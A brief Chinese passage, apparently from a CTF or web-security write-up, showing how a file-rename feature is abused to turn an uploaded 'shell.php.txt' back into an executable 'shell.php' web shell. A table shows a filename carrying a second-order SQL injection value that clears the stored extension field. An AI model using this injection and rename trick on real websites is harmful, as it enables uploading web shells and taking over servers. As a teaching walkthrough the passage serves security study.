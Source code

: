 再进行重命名，oldname=shell.php\&newname=shell.php.txt，这样upload目录还是有两个文件，`shell.php.txt`和`shell.txt`



<table><thead><tr><th width="150" data-type="number">fid</th><th width="150" align="center">filename</th><th width="150" align="center">oldname</th><th width="150" align="center">view</th><th align="center">extension</th></tr></thead><tbody><tr><td>1</td><td align="center">shell.php.txt</td><td align="center">shell.php</td><td align="center">0</td><td align="center"></td></tr><tr><td>2</td><td align="center">shell.txt',extension='' where fid=1#</td><td align="center"></td><td align="center">0</td><td align="center">.txt</td></tr></tbody></table>

然后再进行重命名，oldname=shell.php.txt\&newname=shell.php，在执行rename函数就可以把shell.php.txt变成shell.php了

![](<../.gitbook/assets/image (25) (1) (1).png>)

